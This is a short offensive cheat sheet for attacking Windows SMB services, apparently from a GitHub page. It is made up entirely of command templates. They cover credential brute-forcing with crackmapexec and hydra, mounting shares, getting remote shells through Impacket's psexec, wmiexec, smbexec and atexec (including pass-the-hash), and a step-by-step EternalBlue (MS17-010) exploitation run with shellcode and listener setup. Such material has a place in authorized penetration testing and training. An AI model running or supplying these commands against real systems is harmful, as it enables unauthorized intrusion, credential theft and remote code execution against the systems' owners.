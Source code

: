### Brute force

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```
